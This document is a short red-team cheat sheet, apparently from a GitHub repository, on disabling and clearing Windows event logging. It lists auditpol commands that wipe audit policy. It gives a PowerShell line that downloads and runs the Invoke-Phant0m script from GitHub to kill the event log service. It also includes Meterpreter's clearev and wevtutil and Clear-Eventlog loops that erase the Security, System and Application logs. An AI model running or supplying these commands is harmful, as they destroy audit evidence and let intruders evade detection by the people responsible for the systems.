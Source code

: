 # Disable Windows Event Logging

## Permissions: Administrator

### 1) Auditpol

##### Delete the per-user audit policy for all users, reset the system audit policy settings for all subcategories, and set all the audit policy settings to disabled,

    auditpol.exe /clear /y
    auditpol.exe  /remove /allusers

### 2) Invoke-Phant0m

##### Completely disables the event log service. Requires a system restart to return normal operation.

    iex (iwr -usebasicparsing https://raw.githubusercontent.com/olafhartong/Invoke-Phant0m/master/Invoke-Phant0m.ps1);Invoke-Phant0m

# Clear Windows Event Logs

## Permissions: User or Admin

### 1) Metasploit

##### Meterpreter

    clearev

### 2) Powershell

##### Clear Application,Security and System Logs

    Clear-Eventlog -LogName Application,Security,System

##### Utilize PowerShell with Wevtutil to clear all logs from the system

    wevtutil el | Foreach-Object {wevtutil cl $_}

### 3) Wevtutil

##### Clear all logs on the system (cmd)
 
     for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"

##### Clear select logs

    wevtutil cl system
    wevtutil cl application
    wevtutil cl security
